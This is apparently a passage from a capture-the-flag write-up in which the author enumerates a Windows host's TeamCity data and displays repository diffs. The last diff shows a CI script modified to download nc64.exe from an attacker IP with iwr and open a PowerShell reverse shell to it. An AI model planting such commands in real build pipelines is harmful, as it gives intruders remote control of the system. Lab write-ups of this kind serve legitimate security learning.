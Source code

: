     
    
    PS C:\Users> dir
    
        Directory: C:\Users
    
    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    d-----        6/28/2022   8:14 PM                Administrator
    d-----        6/29/2022   9:34 PM                e.black
    d-r---        6/28/2022   8:14 PM                Public
    d-----        11/9/2022   9:42 AM                svc_teamcity
    

`user.txt` must be with e.black.

#### TeamCity

There’s not much of interesting the `C:\TeamCity` directory. However, in
looking around, there’s a `JetBrains\TeamCity` directory in `C:\ProgramData`:

    
    
    PS C:\programdata\JetBrains\TeamCity> ls
    
        Directory: C:\programdata\JetBrains\TeamCity
    
    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    d-----       11/20/2023   9:15 PM                config
    d-----        11/3/2022   3:08 PM                lib
    d-----        11/3/2022   3:09 PM                plugins
    d-----       11/20/2023   9:15 PM                system
    

In the `system` folder there’s a folder named `changes`:

    
    
    PS C:\programdata\JetBrains\TeamCity\system\changes> ls
    
        Directory: C:\programdata\JetBrains\TeamCity\system\changes
    
    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    -a----        11/8/2022   2:18 PM           1707 101.changes.diff
    -a----       11/20/2023   8:59 PM            323 201.changes.diff
    -a----       11/20/2023   8:59 PM            323 202.changes.diff
    -a----       11/20/2023   8:59 PM            323 203.changes.diff
    -a----       11/20/2023   9:13 PM            323 204.changes.diff
    

These are changes to the repo. For example, `204.changes.diff` (and all the
other recently ones) is the changes that give me a shell:

    
    
    PS C:\programdata\JetBrains\TeamCity\system\changes> type 204.changes.diff
    diff --git a/hello_world.ps1 b/hello_world.ps1
    index 09724d2..6cd6d20 100755
    --- a/hello_world.ps1
    +++ b/hello_world.ps1
    @@ -1,2 +1,5 @@
     #Simple repo test for Teamcity pipeline
     write-host "Hello, World!"
    +
    +iwr http://10.10.14.6/nc64.exe -outfile \ProgramData\nc64.exe
    +\ProgramData\nc64.exe -e powershell 10.10.14.6 443
    